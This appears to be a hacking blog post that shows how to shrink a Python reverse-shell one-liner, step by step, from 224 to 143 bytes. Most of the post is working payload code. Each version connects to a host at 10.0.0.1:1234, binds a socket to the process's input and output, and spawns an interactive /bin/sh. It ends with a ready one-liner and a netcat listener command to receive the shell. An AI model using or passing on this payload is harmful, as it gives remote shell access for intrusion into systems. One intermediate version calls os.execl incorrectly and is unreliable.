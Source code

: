 ```yaml
---
layout: post
title:  "Compact Python Reverse Shell Revisisted"
subtitle: "Making a compact python reverse shell, even more compact! Expanded"
categories: python hacking
published: true
comments: true
tags:
 - Python
 - Hacking
---
```


Expanding on the short post about this, I figured it would be worth breaking down what was done and the steps used to reduce the overall code size.

The original version (224 bytes) in its 1 line glory.

{% highlight python %}
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

Now lets lose the "python -c 'code goes here'". We are implying this is needed and just going to look at the python code we can play with for now. There is one little reduction we can do which is we can lose the space after the -c option.

{% highlight python linenos %}
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

We can see some duplication, first s.fileno(), being called multiple times with the same parameter. So lets simplify that.

{% highlight python linenos %}
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
h=s.fileno();
os.dup2(h,0);
os.dup2(h,1);
os.dup2(h,2);
p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

So that is a little smaller, we still have another easy duplicate os.dup2, but the past parameters are different. Easy, lets just make shorten the command then.

{% highlight python linenos %}
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
h=s.fileno();
d=os.dup2;
d(h,0);
d(h,1);
d(h,2);
p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

So that is a little shorter again, lets take a look at our longest line now, line2. Now, those two constant, socket.AF_INET and socket.SOCK_STREAM do we need them? Can we change them to constant? Turns out they are the defaults, so let's loose them! Great, way to shave off 33bytes!

{% highlight python linenos %}
import socket,subprocess,os;
s=socket.socket();
s.connect(("10.0.0.1",1234));
h=s.fileno();
d=os.dup2;
d(h,0);
d(h,1);
d(h,2);
p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

Wow smaller, but still I think we can do better. Subprocess, nifty library but woah, that is a long import and call to have is there another call that would do the same thing? We know this will only work on linux since it needs a shell. So os.execl, we can use that, and that will be shorter, also we already have the import.

{% highlight python linenos %}
import socket,os;
s=socket.socket();
s.connect(("10.0.0.1",1234));
h=s.fileno();
d=os.dup2;
d(h,0);
d(h,1);
d(h,2);
os.execl(["/bin/sh","-i"]);
{% endhighlight %}

Well that is better, a few minor tweaks to the syntax a space we can lose here, a ; we don't need there. And turn it back into a one liner and you get. The much smaller new version (143 bytes)

{% highlight python %}
	python -c'import socket,os;s=socket.socket();s.connect(("10.0.0.1",1234));h=s.fileno();d=os.dup2;d(h,0);d(h,1);d(h,2);os.execl("/bin/sh","-i")'
{% endhighlight %}

SO if you where to run this on a linux system and wanted to test it out, you would need to use the following little bit of bash to setup a listener, in this case we are using netcat, which is great for this. Be aware that not all versions of netcat will support the -l option.

To receive the reverse shell a simple nc works great.

{% highlight bash %}
	nc -l -v -p 1234
{% endhighlight %}
